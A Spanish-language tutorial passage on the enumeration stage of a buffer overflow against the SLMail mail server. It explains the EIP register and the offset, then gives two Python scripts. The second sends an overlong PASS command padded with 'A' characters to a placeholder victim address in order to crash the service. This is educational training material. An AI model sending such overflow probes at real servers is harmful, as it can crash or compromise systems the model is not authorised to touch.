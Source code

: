 #BufferOverflow #SLMail

###### Enumeración
En las fases iniciales lo primero que debemos de hacer es averiguar cuales son los limites de los programas objetivos, esto se realiza probando a introducir más caracteres de los debidos en los diferentes campos de entrada del programa, como una cadena de texto o un archivo hasta que se detecte que la aplicación se corrompe o falla.

El registro *EIP (Extended Instruction Pointer)* es un registro de la CPU que apunta a la dirección en la memoria donde se encuentra la siguiente instrucción que se va a ejecutar. Un buffer overflow exitoso es cuando el valor del registro *EIP* se sobre escribe con una dirección controlada por el atacante.

El objetivo de averiguar el *offset* es determinar el número exacto de caracteres que se deben introducir en el campo de entrada para sobrescribir el valor del registro *EIP* y apuntar a la dirección de memoria controlada por el atacante. Una vez que se conoce el *offset*, el atacante puede diseñar un exploit personalizado para el programa objetivo que permita tomar control del registro *EIP* y ejecutar código malicioso.

Para esto nos crearemos nuestro script de Python, vamos a llamarle `exploit.py`
	En este caso al estar explotando SLMail usaremos lo siguiente:

01.-
```python
	#!/usr/bin/python3
	
	import socket
	import sys
	
	#Variables globales
	ip_adress = <IP_Victima>
	port = <Puerto>
	
	
	def exploit():
		
		#Crar socket
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		
		#Conectar con el servidor
		s.connect((ip_adress, port))
		
		#Recibir la respuest(banner)
		banner = s.recv(1024)
		print(banner)
		
		
	if __name__ == '__main__':
	
		exploit()
```
En este punto tenemos que verificar que hemos recibido el banner, cuando ejecutamos el exploit.

02.-
```python
	#!/usr/bin/python3
	
	import socket
	import sys
	
	if len(sys.argv) != 2:
		print("\n[!] Usage: exploit.py <length>")
		exit(1)
	
	#Variables globales
	ip_adress = <IP_Victima>
	port = <Puerto>
	total_length = int(sys.argv[1])
	
	#Exploit
	def exploit():
		
		#Crar socket
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		
		#Conectar con el servidor
		s.connect((ip_adress, port))
		
		#Recibir la respuest(banner)
		banner = s.recv(1024)
		
		s.send(b"USER test" + b'\r\n') #Enviamos un usuario aleatorio en este caso TEST
		response = s.recv(1024)
		s.send(b"PASS " + b"A"*total_length + b'\r\n') #
		s.close()
		
	if __name__ == '__main__':
		
		exploit()
```
